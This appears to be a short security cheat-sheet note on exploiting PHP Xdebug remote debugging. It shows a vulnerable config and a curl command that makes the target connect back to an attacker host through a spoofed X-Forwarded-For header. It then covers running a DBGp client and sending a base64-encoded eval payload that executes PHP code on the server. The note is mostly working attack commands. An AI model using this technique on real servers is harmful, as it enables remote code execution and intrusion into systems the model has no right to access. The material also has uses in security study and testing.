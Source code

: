 #php

## Resource
https://medium.com/@knownsec404team/the-exploits-of-xdebug-in-phpstorm-2ca140e91dc

## Vulnerable Server Config

```
# Remote debug.
xdebug.remote_enable= true 
# Connect back to X-Forwarded-For.
xdebug.remote_connect_back= true
# Will be ignored. 
xdebug.remote_host= 127.0.0.1 
```


## Initiate Remote Debug Connection

```bash
curl http://[TARGET_HOST]/?XDEBUG_SESSION_START --header 'X-Forwarded-For: [ATTACKER_HOST]
```


## Command Line Debug Client (Attacker Host)
https://xdebug.org/download#dbgpClient

```bash
./dbgpClient -p 9000
```


## DBGp Commands

Execute php command (in base64). 
```php
eval -i 1 -- JHZhcj1zY2FuZGlyKCcuJyk7
```
- Payload = `$var=scandir('.');`
- Add `$var` before the php command to get the output of the command in CLI debugger.
- `-i 1`: Transaction ID (mandatory but number doesn't import).

![[remote_xdebug_example.png]]
